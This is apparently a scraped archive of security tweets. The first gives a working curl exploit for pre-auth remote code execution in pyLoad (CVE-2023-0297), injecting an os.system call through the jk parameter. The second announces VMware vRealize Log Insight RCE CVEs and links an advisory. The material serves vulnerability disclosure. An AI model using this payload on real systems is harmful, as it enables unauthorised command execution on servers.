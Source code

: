 # akaclandestine
**https://twitter.com/akaclandestine/status/1618892579432726529 _at 2023-01-27, 08:44:03_**
<blockquote>
CVE-2023-0297
Pre-auth RCE in pyLoad

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&amp;package=xxx&amp;crypted=AAAA&amp;&amp;passwords=aaaa' \
    $'http://&lt;target&gt;/flash/addcrypted2'

Exploit
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1618696299897028609 _at 2023-01-26, 19:44:06_**
<blockquote>
Exploitation of multiple vulnerabilities affecting #VMware vRealize Log Insight leads to unauth RCE
🔺 CVE-2022-31704, CVE-2022-31706, CVE-2022-31711
🔺 IOC Blog tomorrow
🔺 POC / Deep-Dive  Blog next week

See VMware Security Advisory: https://t.co/tldhMQPoPK https://t.co/VesGlE8u5R
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2023-0001.html

<table><tr>